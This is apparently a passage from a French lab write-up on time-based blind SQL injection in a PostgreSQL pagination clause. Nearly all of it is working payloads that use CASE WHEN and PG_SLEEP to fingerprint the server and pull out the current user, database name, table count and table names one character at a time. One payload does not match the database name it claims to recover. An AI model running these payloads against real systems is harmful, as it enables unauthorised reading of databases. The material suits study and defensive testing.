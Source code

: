 ```sql
(SELECT CASE WHEN (VERSION() LIKE '%PostgreSQL%') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

Récupération de l'utilisateur PostgreSQL :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_USER,1,1))=ASCII('s') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_USER,2,1))=ASCII('q') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_USER,3,1))=ASCII('l') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

L'utilisateur PostgreSQL est "sql\_injection\_in\_pagination\_clauses".

Récupération du nom de la base de données :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_CATALOG,1,1))=ASCII('s') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_CATALOG,2,1))=ASCII('q') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_CATALOG,3,1))=ASCII('q') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

Le nom de la base de donnéest est "sql\_injection\_in\_pagination\_clauses\_database".

Récupération du nombre de tables :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT COUNT(tablename) FROM pg_tables WHERE schemaname = 'public')::text,1,1))=ASCII('2') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

La base de données possède deux tables.

Récupération des noms des tables :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 0)::text,1,1))=ASCII('u') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 0)::text,2,1))=ASCII('s') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```
